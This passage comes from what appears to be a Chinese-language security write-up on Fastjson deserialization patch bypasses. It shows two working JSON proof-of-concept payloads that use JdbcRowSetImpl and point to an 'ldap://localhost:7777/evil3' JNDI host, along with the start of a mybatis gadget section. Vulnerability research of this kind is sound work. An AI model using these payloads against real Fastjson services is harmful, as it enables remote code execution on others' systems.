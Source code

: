 这里会递归调用`loadClass`所以最后能够绕过判断

最后POC：

```java
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://localhost:7777/evil3",
	"autoCommit":true
}
```

![image-20220717112410439](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717112410439.png)

## Fastjson1.2.25-1.2.43补丁绕过(用左中括号绕过、需要开启autotype)

这个版本主要是修复上一个版本中双写绕过的问题，`checkAutoType` 函数添加了判断，如果类名连续出现了两个 `L` 将会抛出异常：

![image-20220717143127000](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717143127000.png)

官方只修复了`L;`但是忽视了`[`，我们可以利用它进行绕过

调试一下，在`TypeUtils.loadClass()`函数中：

![image-20220717144109737](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717144109737.png)

遇到`[`开头，会调用`Array.newInstance().getClass()`来返回类，在最后反序列化类时，调用了`DefaultJSONParser.parseArray()`函数来解析数组内容，其中会对字符内容格式有一些限制，最终构造poc：

```java
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,
	{"dataSourceName":"ldap://localhost:7777/evil3",
	"autoCommit":true
}
```

![image-20220717145325804](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717145325804.png)

## Fastjson1.2.25-1.2.45补丁绕过(mybatis的3.x版本且<3.5.0、需要开启autotype)

前提条件：需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列<3.5.0的版本。

加载依赖：

```xml
<dependency>
        <groupId>org.mybatis</groupId>
        <artifactId>mybatis</artifactId>
        <version>3.4.6</version>
    </dependency>
```

关键类：`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`
